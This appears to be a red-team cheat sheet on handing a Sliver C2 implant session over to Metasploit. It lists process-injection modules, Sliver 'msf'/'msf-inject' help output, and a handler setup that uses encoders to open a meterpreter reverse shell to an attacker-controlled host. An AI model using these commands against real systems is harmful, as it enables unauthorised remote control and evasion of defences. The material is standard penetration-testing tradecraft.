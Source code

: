 # Switching Callbacks

## 01 - Metasploit

TODO: Go through every MSF module

use post/windows/manage/exec_powershell

post/windows/manage/multi_meterpreter_inject

exploit/windows/local/payload_inject

run post/windows/manage/shellcode_inject

post/windows/manage/reflective_dll_inject

## 02 - Sliver

### 2.1 - Help Menu

```
sliver (IMPLANT_NAME) > msf -h

Command: msf [--lhost] <options>
About: Execute a metasploit payload in the current process.

Usage:
======
  msf [flags]

Flags:
======
  -e, --encoder    string    msf encoder
  -h, --help                 display help
  -i, --iterations int       iterations of the encoder (default: 1)
  -L, --lhost      string    listen host
  -l, --lport      int       listen port (default: 4444)
  -m, --payload    string    msf payload (default: meterpreter_reverse_https)
  -t, --timeout    int       command timeout in seconds (default: 60)

sliver (IMPLANT_NAME) > msf-inject -h

Command: inject [--pid] [--lhost] <options>
About: Execute a metasploit payload in a remote process.

Usage:
======
  msf-inject [flags]

Flags:
======
  -e, --encoder    string    msf encoder
  -h, --help                 display help
  -i, --iterations int       iterations of the encoder (default: 1)
  -L, --lhost      string    listen host
  -l, --lport      int       listen port (default: 4444)
  -m, --payload    string    msf payload (default: meterpreter_reverse_https)
  -p, --pid        int       pid to inject into (default: -1)
  -t, --timeout    int       command timeout in seconds (default: 60)
```

### 2.2 - Usage

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload <payload>

msf exploit(multi/handler) > set EnableStageEncoding true

msf exploit(multi/handler) > set StageEncoder <x86/shikata_ga_nai | x64/xor_dynamic>

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run
```

- Inject meterpreter session directly in the same beacon process

`sliver (IMPLANT_NAME) > msf [-e <x86/shikata_ga_nai | x64/xor_dynamic>] -i <iterations> -L <IP> -l <PORT> -m <payload>`

- Inject meterpreter session through another process

`sliver (IMPLANT_NAME) > msf-inject -p <pid> -e [x86/shikata_ga_nai | x64/xor_dynamic] -i <iterations> -L <IP> -l <PORT> -m <payload>`

---
## References

- [Lateral Movement Pass the Hash Attack](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)

- [Pentestlab Powershell Remoting](https://pentestlab.blog/tag/powershell-remoting/)

- [Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

- [Shellcode Injection with Metasploit](https://www.hackercoolmagazine.com/metasploit-shellcode-injection-module/)

- [Getting the bacon from Cobalt Strike Beacon](https://www.crowdstrike.com/blog/getting-the-bacon-from-cobalt-strike-beacon/)

- [RCE on Windows From Linux Part 1 Impacket](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/)

- [CertCube Pass the Hash in Windows 10](https://blog.certcube.com/pass-the-hash-in-windows-10/)